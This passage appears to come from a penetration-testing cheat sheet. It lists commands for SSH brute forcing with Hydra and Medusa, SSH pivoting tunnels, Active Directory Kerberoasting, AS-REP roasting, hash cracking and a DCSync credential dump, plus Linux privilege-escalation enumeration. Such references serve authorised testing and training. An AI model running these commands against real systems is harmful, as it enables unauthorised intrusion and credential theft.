**Solution**:
```bash
# 1. SSH enumeration
nmap -p 22 --script ssh-enum-algos,ssh-hostkey target_ip
ssh-audit target_ip

# 2. SSH brute force
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://target_ip
medusa -h target_ip -u admin -P /usr/share/wordlists/rockyou.txt -M ssh

# 3. SSH key enumeration
ssh-keyscan target_ip
nmap -p 22 --script ssh-publickey-acceptance target_ip

# 4. SSH tunneling for pivoting
ssh -D 8080 user@target_ip
ssh -L 8080:internal_host:80 user@target_ip
ssh -R 8080:localhost:80 user@target_ip
```

### Active Directory Penetration Testing
**Problem**: Enumerating and exploiting Active Directory environments

**Solution**:
```bash
# 1. Domain enumeration
enum4linux target_ip
ldapsearch -x -h target_ip -s base namingcontexts
rpcclient -U "" target_ip

# 2. Kerberoasting
GetUserSPNs.py domain.com/user:password -dc-ip target_ip -request
hashcat -m 13100 kerberos_hashes.txt /usr/share/wordlists/rockyou.txt

# 3. ASREPRoasting
GetNPUsers.py domain.com/ -usersfile users.txt -format hashcat -outputfile asrep_hashes.txt
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt

# 4. DCSync attack
secretsdump.py domain.com/user:password@target_ip
```

## Privilege Escalation Solutions

### Linux Privilege Escalation
**Problem**: Escalating privileges on Linux systems

**Solution**:
```bash
# 1. Enumeration scripts
./linpeas.sh
./linux-exploit-suggester.sh
./LinEnum.sh

# 2. SUID binary exploitation
find / -perm -u=s -type f 2>/dev/null
find / -perm -4000 -type f 2>/dev/null

# 3. Sudo misconfiguration
sudo -l
# If sudo NOPASSWD for specific commands
sudo /vulnerable/command

# 4. Cron job exploitation
```